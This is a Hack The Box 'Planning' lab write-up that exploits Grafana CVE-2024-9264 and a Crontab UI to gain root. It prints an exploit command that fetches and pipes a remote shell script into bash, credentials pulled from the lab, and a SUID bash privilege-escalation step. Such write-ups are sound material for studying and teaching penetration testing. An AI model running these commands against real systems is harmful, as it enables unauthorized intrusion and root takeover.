




# Hack The Box - Planning

Planning is an easy Linux box centered around a small amount of web enumeration, a vulnerable Grafana instance, and a misconfigured cron management interface that leads to root.

## Reconnaissance

A port scan showed only two services exposed:

```text
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.11 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    nginx 1.24.0 (Ubuntu)
```

The web server redirected to `http://planning.htb`, so I added that hostname to my `/etc/hosts` file before interacting with the site.

The main page presented a set of online education courses, but all of them displayed the same content. The enrollment flow asked for information, but nothing meaningful happened after submitting it. The contact form also appeared broken and did not lead anywhere useful.

Since the site looked like it might rely on virtual host routing, I enumerated subdomains with `ffuf`. Using `dns-Jhaddix.txt` from SecLists revealed a `grafana` subdomain, which I added to my hosts file as well.

```bash
ffuf -H 'Host: FUZZ.planning.htb' \
     -w /usr/share/wordlists/seclists/Discovery/DNS/dns-Jhaddix.txt \
     -u http://planning.htb \
     -fs 178
```

The scan returned:

```text
grafana                 [Status: 302, Size: 29, Words: 2, Lines: 3, Duration: 49ms]
```

## Initial Access

The box was provided with credentials for an initial account:

```text
admin:0D5oT70Fq13EvB5r
```



I used them to log into Grafana at `grafana.planning.htb`. The instance was running version `v11.0.0`, so I looked for known issues affecting that release.

A public proof of concept existed for `CVE-2024-9264` https://github.com/nollium/CVE-2024-9264 , which allows file read and remote code execution through Grafana’s DuckDB functionality. I first verified the exploit with a simple `whoami` command, then used it to fetch and execute a reverse shell from my web server.

```bash
python CVE-2024-9264.py -u admin \
                        -p '0D5oT70Fq13EvB5r' \
                        -c 'curl http://10.10.10.10/shell | bash' \
                        http://grafana.planning.htb
```

The command executed successfully and dropped me into a shell inside a Docker container.

Inside the container, I checked the environment variables and found credentials for the `enzo` user:

```text
GF_SECURITY_ADMIN_USER=enzo
GF_SECURITY_ADMIN_PASSWORD=RioTecRANDEntANT!
```

Those credentials also worked over SSH, which gave me access to the host and the first flag.

## Privilege Escalation

After landing on the host, I checked `/opt` and found a `crontabs` directory containing a file named `crontab.db`. It was owned by root and had been modified recently. Although the file name suggested a database, the contents were JSON describing two scheduled tasks.

One of the jobs was a Grafana backup routine. It saved the Docker image, compressed it, and then wrapped the archive in a password-protected zip file. The password used by the zip archive was:

```text
P4ssw0rdS0pRi0T3c
```

The JSON also showed a second scheduled cleanup job:

```json
{"name":"Grafana backup","command":"/usr/bin/docker save root_grafana -o /var/backups/grafana.tar && /usr/bin/gzip /var/backups/grafana.tar && zip -P P4ssw0rdS0pRi0T3c /var/backups/grafana.tar.gz.zip /var/backups/grafana.tar.gz && rm /var/backups/grafana.tar.gz","schedule":"@daily","stopped":false,"timestamp":"Fri Feb 28 2025 20:36:23 GMT+0000 (Coordinated Universal Time)","logging":"false","mailing":{},"created":1740774983276,"saved":false,"_id":"GTI22PpoJNtRKg0W"}
{"name":"Cleanup","command":"/root/scripts/cleanup.sh","schedule":"* * * * *","stopped":false,"timestamp":"Sat Mar 01 2025 17:15:09 GMT+0000 (Coordinated Universal Time)","logging":"false","mailing":{},"created":1740849309992,"saved":false,"_id":"gNIRXh1WIc9K7BYX"}
```

The password did not work for root login, so I went back to the application that might be consuming this file. Locally, port `8000` was listening, but a direct curl request returned `401 Unauthorized` because the service required basic authentication.

```bash
curl -v http://127.0.0.1:8000
```

To reach it from my machine, I forwarded port `8000` through the SSH session. After that, the credentials `root:P4ssw0rdS0pRi0T3c` worked, and I gained access to the Crontab UI.



The dashboard displayed the two cron jobs already defined in the JSON file. It also allowed me to create new entries, so I added one that copied `bash` to `/tmp` and set the SUID bit on it. After saving it, I used the **Run now** option to execute the job immediately.



Once the SUID bit was in place, I launched:

```bash
/tmp/bash -p
```

That produced a root shell and gave me the final flag.

## Attack Path

- **Enumerate the target** — identify the open services and add `planning.htb` to `/etc/hosts`.
- **Discover the hidden subdomain** — brute-force virtual hosts and find `grafana.planning.htb`.
- **Log in to Grafana** — use the provided credentials to access the dashboard.
- **Exploit CVE-2024-9264** — run the public PoC to achieve command execution through Grafana.
- **Extract container credentials** — inspect environment variables and recover the `enzo` password.
- **SSH into the host** — authenticate as `enzo` and get the user shell.
- **Inspect `/opt/crontabs`** — locate `crontab.db` and recover the zip password from the Grafana backup job.
- **Access Crontab UI** — forward port `8000` and log in with the recovered credentials.
- **Create a malicious cron job** — copy `bash` to `/tmp` and set the SUID bit.
- **Escalate to root** — run `/tmp/bash -p` and capture the final flag.
